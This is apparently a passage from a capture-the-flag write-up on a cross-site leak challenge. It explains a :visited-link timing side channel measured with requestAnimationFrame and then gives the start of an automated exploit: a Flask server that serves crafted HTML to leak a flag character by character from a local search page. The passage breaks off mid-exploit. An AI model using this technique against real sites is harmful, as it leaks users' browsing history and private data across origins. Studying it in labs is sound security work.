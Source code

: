 The performance is measured by counting the number of `requestAnimationFrame` callbacks, which indicates how often the browser repaints the element. If the link is visited, it takes longer to repaint due to the extra styles applied by the `:visited` selector:
```js
var tickCount = 0;
var tickRequestId;

function startCountingTicks() {
    tickRequestId = requestAnimationFrame(function tick() {
        ++tickCount;
        tickRequestId = requestAnimationFrame(tick);
    });
}

function stopCountingTicks() {
    cancelAnimationFrame(tickRequestId);
    var oldTickCount = tickCount;
    tickCount = 0;
    return oldTickCount;
}
```
I've forked the challenged ~~because I am lazy~~ so it works without authentication, testing the [author's PoC ](https://issues.chromium.org/action/issues/40091173/attachments/53139586?download=false)showed some promising results when testing locally, with a local flag `flag{123123}`, when testing `http://127.0.0.1:21111/search?q=flag`

![image](https://github.com/ixSly/CTFs/assets/32583633/9b7c4a97-9f2f-4fd8-b19b-7a709a818536)

# The Solution
This technique was used by [TeamItaly](https://github.com/TeamItaly/TeamItalyCTF-2023/tree/master/leakynotev3/writeup) in a challenge called `leakynote` where the automated the solution, a successful one should stably leak the flag char by char.  I was too late to the CTF so unfortunately wasn't able to solve it on time. 
Finally, I came up with the following automated solution

```python
import os
from flask import Flask, render_template_string, request

app = Flask(__name__)
URL = "http://127.0.0.1:21111/"
CHARSET = "1234567890" # for local testing 
#CHARSET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
ex_html = '''
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>XS-Leak Test</title>
    <style type="text/css">
        /* Set it up so the target link element has different colors when pointing to a
           visited vs unvisited URL. */
        #target {
            color: white;
            background-color: white;
            outline-color: white;
        }
        #target:visited {
            color: #feffff;
            background-color: #fffeff;
            outline-color: #fffffe;
        }
```